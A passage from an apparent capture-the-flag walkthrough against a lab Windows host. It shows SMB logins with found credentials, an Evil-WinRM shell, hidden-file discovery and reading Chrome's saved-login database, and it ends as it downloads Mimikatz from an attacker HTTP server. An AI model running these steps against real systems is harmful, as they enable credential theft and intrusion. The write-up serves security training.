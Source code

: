 ### FLAG 007: Email Credentials File (15 points)
**Location**: Passwords subfolder
```bash
# Connect to Users share
smbclient //192.168.1.124/Users -U jsmith%Welcome1

smb: \> cd Public\Documents\Passwords
smb: \> ls
smb: \> get email.txt
smb: \> !cat email.txt
# Output: // FLAG{FEAROW08818758}
# Also contains: Administrator@overclock.io / Password123!
smb: \> quit
```

### FLAG 008: Hidden File Discovery (25 points)
**Location**: Hidden file in WorkFiles directory
```bash
# Connect via Evil-WinRM
evil-winrm -i 192.168.1.124 -u jsmith -p Welcome1

# Navigate to WorkFiles
*Evil-WinRM* PS C:\Users\jsmith\Documents> cd C:\WorkFiles

# Show hidden files
*Evil-WinRM* PS C:\WorkFiles> Get-ChildItem -Force

# Read hidden flag file
*Evil-WinRM* PS C:\WorkFiles> Get-Content .flag
# Output: FLAG{SANDSLASH22756452}
```

### FLAG 009: Browser Credential Extraction (30 points)
**Location**: Chrome password database
```bash
# In Evil-WinRM session:
*Evil-WinRM* PS C:\> cd "$env:LOCALAPPDATA\Google\Chrome\User Data\Default"
*Evil-WinRM* PS C:\Users\jsmith\AppData\Local\Google\Chrome\User Data\Default> ls

# Extract flag from Login Data
*Evil-WinRM* PS C:\Users\jsmith\AppData\Local\Google\Chrome\User Data\Default> type "Login Data" | Select-String FLAG
# Output: "flag":"FLAG{NIDOQUEEN75067246}"
```

---

## Phase 4: Memory Exploitation with Mimikatz

### FLAG 003: LSASS Memory Dump (45 points)
**Location**: WDigest credentials in memory
```bash
# In Evil-WinRM session as jsmith:
*Evil-WinRM* PS C:\Users\jsmith\Documents> cd C:\Temp

# Start Python HTTP server on Kali:
# python3 -m http.server 8000

# Download Mimikatz
*Evil-WinRM* PS C:\Temp> Invoke-WebRequest -Uri http://192.168.1.7:8000/mimikatz.exe -OutFile mimikatz.exe

# Run Mimikatz
```